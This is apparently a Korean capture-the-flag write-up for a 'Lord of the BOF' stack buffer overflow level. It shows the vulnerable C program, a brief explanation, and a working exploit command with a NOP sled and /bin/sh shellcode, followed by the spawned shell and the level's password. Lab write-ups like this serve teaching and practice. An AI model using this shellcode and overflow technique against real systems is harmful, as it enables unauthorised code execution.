 ```yaml
---
title: "BOF - Lv.5 orc"
excerpt: "Lv.5. orc"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - stack buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40); // 40byte를 0으로 초기화.
}
```

## 2. Vulnerability
goblin과 다른점은 마지막에 버퍼를 0으로 초기화한다는 점. 하지만 쉘코드는 어차피 ret 부분에 들어가기 때문에 상관없음.

## 3. Solution
우선 소스코드를 컴파일해서 test 실행파일을 만들고 이전문제와 똑같이 하면 됨.
```
./test `python -c 'print "A"*44+"\xbf\xbf\xbf\xbf"+"B"*200'`
``` 
그 다음 core파일을 확인해서 주소값을 확인하고 test 파일에 제대로 공격을 넣으면 됨. 만약 한번에 안되면 nop의 개수를 더 늘려서 해주면 됨.
```
./wolfman `python -c 'print "A"*44+"\x50\xfa\xff\xbf"+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
bash$ my-pass
euid = 505
love eyuna
```
my-pass : love eyuna